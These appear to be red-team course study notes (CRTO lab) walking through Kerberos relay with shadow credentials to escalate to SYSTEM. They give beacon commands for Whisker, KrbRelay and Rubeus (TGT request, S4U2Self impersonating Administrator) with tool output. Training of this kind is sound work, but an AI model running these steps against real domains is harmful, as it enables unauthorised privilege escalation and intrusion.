 
1) The advantage of using shadow credentials over RBCD is that we don't need to add a fake computer to the domain.  First, verify that the machine your running on has nothing in its `msDS-KeyCredentialLink` attribute.

`beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:wkstn-2$`

2) Run KrbRelay with the `-shadowcred` parameter.

```
beacon> execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/dc-2.dev.cyberbotic.io -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred -port 10

[*] Relaying context: dev.cyberbotic.io\WKSTN-2$
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: C:\Windows\system32\rundll32.exe
[*] Register com server
objref:TUVPVw[...snip...]AAAA==:

[*] Forcing SYSTEM authentication
[*] Using CLSID: 90f18417-f0f1-484e-9d3c-59dceee5dbd8

[*] apReq: 608206[...snip...]b23c98
[*] bind: 0
[*] ldap_get_option: LDAP_SASL_BIND_IN_PROGRESS
[*] apRep1: 6f8187[...snip...]f5de0f
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
[*] apRep2: 6f5b30[...snip...]7a2322
[*] bind: 0
[*] ldap_get_option: LDAP_SUCCESS
[+] LDAP session established
[*] ldap_modify: LDAP_SUCCESS
```

If you perform these attacks back-to-back and see an error like `(0x800706D3): The authentication service is unknown.` then reboot the machine or wait for the next clock sync.

3)  Like Whisker does, KrbRelay will helpfully provide a full Rubeus command that will request a TGT for WKSTN-2.  However, it will return an RC4 ticket so if you want an AES instead, do:

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-2$ /certificate:MIIJyA[...snip...]QCAgfQ /password:"06ce8e51-a71a-4e0c-b8a3-992851ede95f" /enctype:aes256 /nowrap`

4) The S4U2Self trick can then be used to obtain a HOST service ticket.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:host/wkstn-2 /user:wkstn-2$ /ticket:doIGkD[...snip...]5pbw== /ptt`

5) Elevate the privilege

`beacon> elevate svc-exe-krb tcp-local`




### ⚠ Opsec




### Properties
---
📆 created   {{19-02-2024}} 15:36
🏷️ tags: #redteam #crto #activedirectory 

---

